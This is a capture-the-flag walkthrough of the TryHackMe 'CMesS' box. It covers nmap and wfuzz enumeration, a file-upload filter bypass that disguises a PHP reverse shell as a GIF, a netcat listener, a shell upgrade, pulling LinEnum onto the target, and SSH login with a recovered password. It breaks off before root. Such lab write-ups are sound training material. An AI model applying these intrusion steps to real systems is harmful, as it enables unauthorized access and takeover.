




In this walkthrough, we'll go over a challenge (intermediate) level box called "CMesS". CMesS is one of the Linux Privesc boxes on [TryHackMe](https://tryhackme.com/room/cmess) and it was also one of the challenges from [TCM's Linux Privilege Escalation Course on Udemy](https://www.udemy.com/course/linux-privilege-escalation-for-beginners/).


Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.227.177 --open
```


Let's also run the vulnerability scripts as well:
```bash
nmap --script vuln -p 22,80 10.10.227.177
```


However, nmap vuln scan didn't reveal much. Since port 80 is open and Apache httpd 2.4.18 is running, we can start a directory search:
```bash
dirsearch -u http://10.10.227.177 -e php,cgi,html,htm,bak,old,txt -r
```


After enumerating every folder, I realized that a valid set of credentials required to get into this application:


It looks like we have exhausted every option, on my end I also went through every Github exploit related to Apache 2.4.18 (Ubuntu). Next option is to look for subdomains:
```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hl 107 -H "Host: FUZZ.cmess.thm" -u http://cmess.thm -t 100
```


As we can see there is another domain "dev", let's add that to our /etc/hosts file and try to visit the site:


Now, we can try to use andre@cmess.thm email with the above (blurred) password. Once we login, we can browse to "Content" --> "Media" to see if we can upload a reverse shell:


We can upload a txt file to see if there is a file type restriction for upload and then intercept the traffic with BurpSuite:


And it looks like, we can only upload media files. Let's think about it for a second, we can upload png, jpeg, jpg, or gif so how do we do that? Let's download PHP reverse shell from https://github.com/pentestmonkey/php-reverse-shell and we need to change the IP address, and port if you would like. Now, change the file extension to gif:
```bash
cp php-revshell.php php-revshell.php.gif
```
Upload it to the website, but intercept it with BurpSuite and add "GIF89a;" on the top of PHP code:


Let's change the file name to "php-revshell.php" on the Gila site:


Turn off the proxy and start a netcat listener on our Kali machine ```nc -nlvp 1234``` Now, all we need to do this is visiting cmess.thm/assets/php-revshell.php If all goes well, we should receive a reverse shell back:


From this point on, I decided to use LinEnum from https://github.com/rebootuser/LinEnum. I always save Github scripts to my opt directory so I started a Python server and brought it over the compromised machine, but before let's upgrade our shell with python3:


```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
```
```bash
sudo python3 -m http.server 1111
```
And you can use wget on the target machine to download it. After downloading, make sure that it is executable ```chmod +x LinEnum.sh```. Now, we are ready to run LinEnum ```./LinEnum.sh```

If we look at the output, the first thing we see is a password.bak file which we have read right to it:



```cat /opt/.password.bak```



We know that port 22 is open which is SSH so let's try to ssh into the machine with andres password:
```bash
ssh andres@cmess.thm
```
![SSH into]

It worked and we can also see ```user.txt``` file which has the user flag. Last task remaining is to become root. I am again running LinEnum to see if I can find anything interesting that can be used to escalate privileges.


